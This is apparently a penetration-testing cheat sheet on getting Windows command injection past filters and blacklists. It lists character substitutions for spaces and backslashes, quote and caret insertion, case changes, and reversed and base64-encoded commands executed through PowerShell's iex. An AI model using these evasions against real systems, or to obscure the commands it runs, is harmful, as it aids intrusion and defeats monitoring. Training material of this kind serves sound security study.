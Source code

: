 
# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|

---

## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`^`|Windows only (CMD)|
|**Case Manipulation**||
|`WhoAmi`|Simply send the character with odd cases|
|**Reversed Commands**||
|`"whoami"[-1..-20] -join ''`|Reverse a string|
|`iex "$('imaohw'[-1..-20] -join '')"`|Execute reversed command|
|**Encoded Commands**||
|`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`|Encode a string with base64|
|`iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`|Execute b64 encoded string|